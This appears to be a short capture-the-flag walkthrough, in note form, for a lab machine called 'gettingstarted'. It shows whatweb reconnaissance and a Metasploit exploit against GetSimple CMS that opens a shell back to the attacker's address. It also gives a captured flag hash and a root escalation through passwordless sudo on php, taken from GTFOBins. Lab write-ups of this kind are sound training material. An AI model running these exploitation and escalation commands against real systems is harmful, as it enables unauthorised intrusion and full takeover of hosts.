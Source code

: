```r
robots.txt
http://10.129.181.121/admin/
```

```sh
whatweb http://10.129.181.121/admin/
```
out
```r
/usr/lib/ruby/vendor_ruby/target.rb:188: warning: URI.escape is obsolete
http://10.129.181.121/admin/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.181.121], JQuery[1.7.1], PasswordField[pwd], Script[text/javascript], Title[gettingstarted &raquo; Login], X-Frame-Options[SAMEORIGIN]
```

```
msfconsole
search getsimple
use 1
show options
set lhosts 10.10.14.34
set rhosts 10.129.181.121
check 
run
```
user.txt
```
7002d65b149b0a4d19132a66feed21d8
```

```
shell
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
check sudo vuln
```sh
sudo -l
```
out
```
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```
getinfo from https://gtfobins.github.io/gtfobins/php/
```sh
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```
horay you are root
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


